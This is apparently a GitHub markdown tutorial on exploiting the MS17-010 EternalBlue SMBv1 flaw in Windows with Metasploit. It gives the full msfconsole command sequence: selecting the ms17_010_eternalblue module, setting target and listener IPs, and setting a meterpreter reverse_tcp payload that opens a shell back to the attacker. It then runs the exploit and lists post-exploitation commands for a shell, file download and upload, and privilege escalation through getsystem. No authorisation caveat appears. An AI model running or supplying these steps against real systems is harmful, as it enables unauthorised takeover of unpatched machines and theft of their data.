 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

<details>
<summary><strong>Metasploit</strong></summary>
Metasploit is an open-source penetration testing framework that offers a vast collection of tools and exploits for security testing, vulnerability assessment, and penetration testing. It provides a comprehensive platform for security professionals and researchers to test systems, identify vulnerabilities, and execute various security assessments. Metasploit includes a vast database of exploits, payloads, auxiliary modules, and post-exploitation tools, enabling users to assess the security posture of systems and networks.
</details>

<details>
<summary><strong>Eternal Blue</strong></summary>
EternalBlue is the codename for a critical software vulnerability in Microsoft's Windows operating system discovered by the National Security Agency (NSA) and later leaked by a hacking group. This vulnerability (CVE-2017-0144) affects the Windows Server Message Block (SMB) protocol. EternalBlue exploits a flaw in the SMBv1 protocol, allowing attackers to execute arbitrary code remotely on a vulnerable system without requiring user interaction. It was famously used as part of the WannaCry ransomware attack, highlighting its significance and the need for timely system patching and security measures.
</details>

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```bash
msfconsole
```

### View all available command in Metasploit using:

```bash
help
```

### Metasploit module:

In Metasploit, understanding the 4 essential categories is crucial. Using `show all` to display all available modules.

-----------------------------------------------------------------------------------------------------------------------------------------------------
| Category     | Description                                                                                       | Example Usage                  |
|--------------|---------------------------------------------------------------------------------------------------|--------------------------------|
| `exploit`    | Targets vulnerabilities in software or systems for unauthorized access or code execution.         | `show exploit`                 |
| `auxiliary`  | Tools in Metasploit for tasks like scanning, information gathering, etc., without compromise.     | `show auxiliary`               |
| `payload`    | Code/scripts performing actions on exploited systems (e.g., reverse shell or executing commands). | `show payload`                 |
| `post`       | Modules for actions post-exploitation like info gathering, privilege escalation, etc.             | `show post`                    |
-----------------------------------------------------------------------------------------------------------------------------------------------------

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```bash
search ms17-010
```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

## 5. Set Required Parameters

Configure necessary parameters by employing the `show options` command to view and adjust settings as needed. Common options include `RHOSTS`,`LHOST`, `RPORT`, etc.

```bash
set RHOSTS <Target IP>
```
-------------------------------------------------------------------------------
| Parameter | Description                           | Example Usage           |
|-----------|---------------------------------------|-------------------------|
| RHOSTS    | Remote host(s) IP address(es)         | `set RHOSTS 192.168.1.5`|
| LHOST     | Local host listening IP for payloads  | `set LHOST 192.168.1.2` |
| RPORT     | Remote port for the target service    | `set RPORT 445`         |
-------------------------------------------------------------------------------

## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```bash
exploit
```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the `meterpreter` prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands** 

Execute system commands on the target system using :
  
```bash
shell
```
  
- **Gather System Information**

Retrieve system information like system details, user information, etc. using commands:

```bash
sysinfo,getuid
``` 

- **File Operations**

Manipulate files on the compromised system using commands:

```bash
download, upload, ls, cd
```

- **Privilege Escalation**

Attempt to elevate privileges on the target system using modules:

```bash
getsystem, migrate
```

- **Open URL**

Open URL in compromised device using commands like:

```bash
start explorer https://www.example.com
```





